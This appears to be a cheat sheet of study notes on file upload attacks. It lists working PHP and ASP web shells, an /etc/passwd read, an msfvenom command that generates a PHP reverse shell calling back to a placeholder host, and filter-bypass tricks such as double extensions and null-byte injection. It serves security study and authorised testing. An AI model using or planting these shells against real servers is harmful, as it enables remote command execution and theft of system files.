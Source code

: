 # File Upload Attacks  

>[Burp Suite Certified Practitioner study notes on file upload bypass](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-uploads)  

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |